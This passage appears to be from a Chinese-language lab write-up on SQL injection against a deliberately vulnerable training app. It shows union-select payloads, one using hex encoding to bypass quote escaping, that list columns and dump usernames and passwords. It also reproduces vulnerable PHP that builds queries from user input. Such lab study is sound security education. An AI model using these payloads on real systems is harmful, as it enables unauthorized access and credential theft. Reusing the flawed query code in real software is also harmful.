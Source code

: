 #### 获取字段名

需要注意的是，在Med等级引号会被转义，但实际上可以用16进制绕过转义

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```

![image-20220822171814136](./Lab7_SQL_Injection.assets/image-20220822171814136.png)

**发现字段名： user_id, first_name, last_name, user, password, avatar, last_login, failed_login**

 

#### 尝试查表

```
1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```

![image-20220822172127381](./Lab7_SQL_Injection.assets/image-20220822172127381.png)



## High

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```
